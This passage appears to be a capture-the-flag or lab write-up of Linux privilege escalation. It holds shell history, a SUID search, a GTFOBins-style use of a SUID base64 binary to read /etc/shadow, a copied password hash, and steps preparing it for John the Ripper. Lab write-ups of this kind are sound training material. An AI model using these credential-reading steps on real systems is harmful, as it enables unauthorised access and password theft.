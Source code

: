 8 cd home/

9 ls

10 cd missy/

11 su missy

12 ls

13 cd ..

14 ls

15 cd rootflag/

16 ls

17 cat flag2.txt

18 su root

19 ls

20 cd rootflag/

21 su missy

* No results using find to search for "flag".

find / -name flag 2>/dev/null

* No exploits for kernel 3.10.0-1160 found on[ Exploit Database](https://www.exploit-db.com/).
* find / -type f -perm -04000 -ls 2>/dev/null identified "base64" file with SUID (Set-user Identification) set.
  * "base64" file appears as SUID exploit on[ GTFOBins](https://gtfobins.github.io/#base64%20+suid).

16779966 40 -rwsr-xr-x 1 root root 37360 Aug 20 2019 /usr/bin/base64

* Used SUID exploit to read etc/shadow file.

LFILE=/etc/shadow

/usr/bin/base64 "$LFILE" | base64 --decode

* history output suggested that "missy" user may have access to "flag1.txt".

mkdir ./Desktop/Capstone

cd ./Desktop/Capstone

touch passwd.txt shadow.txt passwords.txt

* Copied missy user unshadowed password hash into "shadow.txt"

missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::

* Copied missy user data from etc/passwd into "passwd.txt".

cat /etc/passwd | grep missy

missy:x:1001:1001::/home/missy:/bin/bash

* Used unshadow to create file crackable by John the Ripper.
